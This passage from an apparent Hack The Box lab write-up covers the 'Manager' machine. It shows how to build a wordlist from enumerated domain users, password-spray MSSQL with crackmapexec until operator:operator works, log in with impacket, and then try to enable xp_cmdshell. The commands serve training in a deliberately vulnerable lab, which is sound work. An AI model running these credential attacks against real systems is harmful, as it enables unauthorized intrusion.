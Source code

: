 ![manager1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/f1f2c56e-9f75-4173-911c-a20431b38b86)

Copy domain users found to a file called `output` and generate a wordlist of users/passwords.
```markdown
> echo "MANAGER\Zhong (SidTypeUser)                     
SMB         10.129.142.151  445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.129.142.151  445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.129.142.151  445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.129.142.151  445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.129.142.151  445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.129.142.151  445    DC01             1119: MANAGER\Operator (SidTypeUser)" > output

> cat output | cut -d \\ -f 2 | awk -F ' ' {'print $1}' | tr '[:upper:]' '[:lower:]' > wordlist

> cat wordlist
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```

![manager2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/df63b4dc-42f3-413f-8774-b6d8771191ed)

Next, attempt a credential stuffing attack in the mssql database using this wordlist.
```markdown
> crackmapexec mssql manager.htb -u ./wordlist -p ./wordlist
```
Attack is successful for credentials `operator:operator`

![manager3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/24859b0f-2727-49d4-a063-cc318dade2ef)

Log in with credentials and start enumerating the database.
```markdown
> python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py manager.htb/operator:operator@10.129.142.151 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands

> SQL> help
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
> SQL> enable_xp_cmdshell
[-] ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
[-] ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(DC01\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
```